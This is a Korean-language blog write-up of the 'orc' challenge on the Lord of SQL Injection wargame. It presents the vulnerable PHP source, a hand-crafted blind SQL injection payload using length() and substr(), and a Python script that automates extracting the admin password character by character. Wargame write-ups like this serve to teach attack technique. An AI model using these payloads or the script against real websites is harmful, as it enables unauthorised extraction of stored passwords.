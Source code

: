 ```yaml
---
layout: post
title: ! "[LOS] orc"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - orc
  - write-up
---
```


### https://los.eagle-jump.org/ 버전
![]({{ site.baseurl }}/assets/posts/los/orc.png)

`query: select id from prob_orc where id='admin' and pw=''`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

orc 문제는 저번 문제와 다르게 id='admin'으로 고정되어 있고, 입력받은 pw가 db에 있는 pw와 같아야한다.
blind sql injection 문제이고 admin의 pw를 알아야만 문제가 풀린다.
length 함수와 substr 함수로 문제를 풀 것이다.
python으로 코드를 짜서 하는 방법도 있지만 LOS의 첫번째 blind sql injection 문제이므로 수동으로 풀어보겠다.

![]({{ site.baseurl }}/assets/posts/los/orc_admin.png)

`pw=1%27or%20id=%27admin%27%20and%20length(pw)=%278`

이런식으로 length(pw)='1 부터 Hello admin이 뜨는 숫자를 찾으면 된다.
orc 문제에서 pw의 길이는 8

substr 함수는 문자열이나 변수에서 특정위치부터 정해진 길이만큼 자르는  함수이고 이를 이용해 문제를 해결할 수 있다.
substr(pw,1,1)=1 이라고 한다면 pw의 첫번째 글자가 1인지 확인할 수 있겠다.
pw의 길이는 8이므로 substr(pw,1,1) 부터 substr(pw,8,1) 을 해주면서
값으로는 숫자,알파벳,특수문자 등을 넣으면서 pw를 한글자씩 확인할 수 있다.
blind sql injection이기 때문에 숫자,알파벳,특수문자가 들어가는지 안들어가는지 모르고 직접 손으로 확인하기엔 경우의 수가 너무 많기 때문에 코드를 짜서 푸는 것이다.

![]({{ site.baseurl }}/assets/posts/los/orc_admin_1.png)
![]({{ site.baseurl }}/assets/posts/los/orc_admin_2.png)
![]({{ site.baseurl }}/assets/posts/los/orc_admin_3.png)
![]({{ site.baseurl }}/assets/posts/los/orc_admin_4.png)
![]({{ site.baseurl }}/assets/posts/los/orc_admin_5.png)
![]({{ site.baseurl }}/assets/posts/los/orc_admin_6.png)
![]({{ site.baseurl }}/assets/posts/los/orc_admin_7.png)
![]({{ site.baseurl }}/assets/posts/los/orc_admin_8.png)

다행히 숫자와 알파벳밖에 없었기 때문에 금방 풀렸으나 조금더 난이도 높은 pw 였다면 직접 손으로 하기엔 어려움이 있을 것이다.
Hello admin이 뜨는 경우만 봤을때 admin의 pw는 **295d5844** 이다.
이 값을 admin의 pw에 넣어주면 문제가 풀린다.

![]({{ site.baseurl }}/assets/posts/los/orc_clear.png)

오크 클리어!


### https://los.rubiya.kr 버전
eagle-jump 페이지와 rubiya 페이지의 답이 달랐다.
다시 풀기 귀찮아서 코드로 짰다.

```py
from requests import get
import string
from time import sleep

url = "https://los.rubiya.kr/chall/orc_~~.php"

cookies = dict(PHPSESSID="")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

for i in range(1,20):
    parameter = "?id=admin&pw=1'or id='admin' and length(pw)='"+ str(i) + "%23"
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is " + str(i))
        break
for i in range(1, length):
    for a in alpha:
        parameter = "?id=admin&pw=1'or id='admin' and ASCII(substr(pw,"+ str(i)+",1))="+str(ord(a))+"%23"
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(i) + " -> " + a)
            result += a
            break

    if i == 1 and result == "":
        print("password not found")
        exit(0)

    if i == length-1:
        print("\npassword is "+result)
        print("\n")
```

![]({{ site.baseurl }}/assets/posts/los/orc_result.png)
![]({{ site.baseurl }}/assets/posts/los/orc_py_clear.png)
